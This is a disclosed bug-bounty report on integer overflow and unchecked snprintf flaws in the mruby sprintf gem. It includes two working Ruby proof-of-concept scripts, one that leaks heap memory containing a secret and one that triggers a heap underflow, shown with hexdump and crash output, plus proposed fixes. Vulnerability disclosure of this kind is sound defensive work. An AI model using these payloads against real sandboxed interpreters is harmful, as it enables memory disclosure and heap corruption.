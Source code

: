 # sprintf gem - format string combined attack

## Report Details
- **Report ID**: 212239
- **URL**: https://hackerone.com/reports/212239
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-03-10T11:35:39.810Z
- **Disclosed**: 2017-03-14T21:25:31.099Z

## Reporter
- **Username**: aerodudrizzt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
In the sprintf gem, NOT included in mruby-engine, there are severe vulnerabilities, including information leak, and heap buffer overflow. Here are the technical details.

Technical Error 1:
==============
The ```CHECK(l)``` macro can sometimes receive negative values, that will bypass the size checks, since the resize loop is:
```cpp
#define CHECK(l) do {\
/*  int cr = ENC_CODERANGE(result);*/\
  while ((l) >= bsiz - blen) {\
    bsiz*=2;\
  }\
  mrb_str_resize(mrb, result, bsiz);\
/*  ENC_CODERANGE_SET(result, cr);*/\
  buf = RSTRING_PTR(result);\
} while (0)
```
One example for reaching a negative "l" value is in the "G" format when the width is "2 ** 31 - 20", causing ```need``` to be ```MIN_INT```:
```cpp
        if ((flags&FWIDTH) && need < width)
            need = width;
        need += 20;

        CHECK(need);
        n = snprintf(&buf[blen], need, fbuf, fval);
        blen += n;
```

Proposed Fix:
-------------------
Since there are several such IOFs, the best fix will be a robust check inside the macro itself.
The macro should add another check to raise an exception in case ```l < 0```.

Technical Error 2:
==============
Still in the "G" format, in case of a huge width, the ```snprintf``` call will fail, returning ```-1```:
```cpp
        n = snprintf(&buf[blen], need, fbuf, fval);
        blen += n;
```
This means that we can decrement ```blen``` by 1 for each such format primitive. 

Information Leak PoC Script:
------------------------------------------
```ruby
secret_password = "thisismysuperdupersecretpassword"

f = 1234567890.12345678
unique = sprintf("% 2147483628G", f)

sample1 = "1" * 50
sample2 = "2" * 100
sample3 = "3" * 200

print unique.length
print unique
```
On 32bit machines, the ```mrb_str_resize(-1)``` will create a string of length ```-1``` with a data buffer realloced with size 0 (= -1 + 1). The resulting output is:
```
hexdump sprintf_leak.bin
0000000 312d 0000 0000 0000 0000 0000 0000 0000
0000010 0000 0000 0000 0000 0000 0000 0000 0000
*
0000080 0000 0000 0000 0039 0000 3131 3131 3131
0000090 3131 3131 3131 3131 3131 3131 3131 3131
*
00000b0 3131 3131 3131 3131 3131 3131 0000 0071
00000c0 0000 3232 3232 3232 3232 3232 3232 3232
00000d0 3232 3232 3232 3232 3232 3232 3232 3232
*
0000120 3232 3232 3232 0000 0000 0000 0000 00d1
0000130 0000 3333 3333 3333 3333 3333 3333 3333
0000140 3333 3333 3333 3333 3333 3333 3333 3333
*
00001f0 3333 3333 3333 3333 3333 0000 0000 05c9
0000200 0000 ca20 b76f ca20 b76f ebd8 095d ebd8
0000210 095d 0000 0000 0000 0000 0000 0000 0000
0000220 0000 0000 0000 0000 0000 0000 0000 0000
*
00007c0 0000 05c8 0000 0010 0000 001b 0000 0001
00007d0 0000 e048 095d 0029 0000 6874 7369 7369
00007e0 796d 7573 6570 6472 7075 7265 6573 7263
00007f0 7465 6170 7373 6f77 6472 0000 0000 0021
0000800 0000 0810 0000 e2c0 0959 0000 0000 0020
0000810 0000 e0f0 095d f200 095d 0000 0000 0029
0000820 0000 6874 7369 7369 796d 7573 6570 6472
0000830 7075 7265 6573 7263 7465 6170 7373 6f77
0000840 6472 0000 0000 0019 0000 2025 3132 3734
0000850 3834 3633 3832 0047 0000 0000 0000 0021
0000860 0000 0810 0000 e2c0 0959 0000 0000 000d
0000870 0000 e108 095d f260 095d 0000 0000 0019
0000880 0000 2025 3132 3734 3834 3633 3832 0047
0000890 0000 0000 0000 0021 0000 8010 0001 e2c0
00008a0 0959 0000 0000 0031 0000 0000 0000 0000
00008b0 0000 0000 0000 0021 0000 8010 0001 e2c0
00008c0 0959 0000 0000 0032 0000 0000 0000 0000
00008d0 0000 0000 0000 0021 0000 8010 0001 e2c0
00008e0 0959 0000 0000 0033 0000 0000 0000 0000
00008f0 0000 0000 0000 dd31 0001 0000 0000 0000
0000900 0000 0000 0000 0000 0000 0000 0000 0000
*
0001000
```
And a close look will tell us that:
* The print of ```unique.length``` returned ```-1```: 0x2d, 0x31
* Our "secret password" can be found at the last memory block of the dump.

Heap buffer underflow PoC Script:
---------------------------------------------------
```ruby
f = 1234567890.12345678
format = "% 2147483628G" * 10 + "!!!!!!!!!!!"

str1 = "1" * 120
unique = sprintf(format, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f)
print str1
```
Decrementing ```blen``` 10 times, will result in a buffer underflow of 10 bytes, that will write '!' on the ```str1```, as can be seen in the dump:
```
*** Error in `./mruby': double free or corruption (out): 0x09905b30 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67257)[0xb7530257]
/lib/i386-linux-gnu/libc.so.6(+0x6d577)[0xb7536577]
/lib/i386-linux-gnu/libc.so.6(+0x6dd31)[0xb7536d31]
./mruby[0x804c81b]
./mruby[0x80593f5]
./mruby[0x8052760]
./mruby[0x805a3a0]
./mruby[0x80596bb]
./mruby[0x80596f8]
./mruby[0x804ce4d]
./mruby[0x8049762]
./mruby[0x8049c48]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf7)[0xb74e1637]
./mruby[0x80491d1]
======= Memory map: ========
08048000-080ed000 r-xp 00000000 08:01 2883651    /XXX/mruby/bin/mruby
080ed000-080ee000 r--p 000a4000 08:01 2883651   /XXX/mruby/bin/mruby
080ee000-080ef000 rw-p 000a5000 08:01 2883651   /XXX/mruby/bin/mruby
098c0000-09924000 rw-p 00000000 00:00 0          [heap]
b7300000-b7321000 rw-p 00000000 00:00 0 
b7321000-b7400000 ---p 00000000 00:00 0 
b7495000-b74b1000 r-xp 00000000 08:01 656726     /lib/i386-linux-gnu/libgcc_s.so.1
b74b1000-b74b2000 rw-p 0001b000 08:01 656726     /lib/i386-linux-gnu/libgcc_s.so.1
b74c8000-b74c9000 rw-p 00000000 00:00 0 
b74c9000-b7678000 r-xp 00000000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b7678000-b7679000 ---p 001af000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b7679000-b767b000 r--p 001af000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b767b000-b767c000 rw-p 001b1000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b767c000-b767f000 rw-p 00000000 00:00 0 
b767f000-b76d2000 r-xp 00000000 08:01 656758     /lib/i386-linux-gnu/libm-2.23.so
b76d2000-b76d3000 r--p 00052000 08:01 656758     /lib/i386-linux-gnu/libm-2.23.so
b76d3000-b76d4000 rw-p 00053000 08:01 656758     /lib/i386-linux-gnu/libm-2.23.so
b76e9000-b76ec000 rw-p 00000000 00:00 0 
b76ec000-b76ee000 r--p 00000000 00:00 0          [vvar]
b76ee000-b76ef000 r-xp 00000000 00:00 0          [vdso]
b76ef000-b7711000 r-xp 00000000 08:01 656660     /lib/i386-linux-gnu/ld-2.23.so
b7711000-b7712000 rw-p 00000000 00:00 0 
b7712000-b7713000 r--p 00022000 08:01 656660     /lib/i386-linux-gnu/ld-2.23.so
b7713000-b7714000 rw-p 00023000 08:01 656660     /lib/i386-linux-gnu/ld-2.23.so
bff43000-bff64000 rw-p 00000000 00:00 0          [stack]
1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111!!Aborted (core dumped)
```

Proposed Fix:
--------------------
Should check the return value of ```snprintf``` for errors, instead of directly using it by adding it to ```blen```.

## Attachments
No attachments
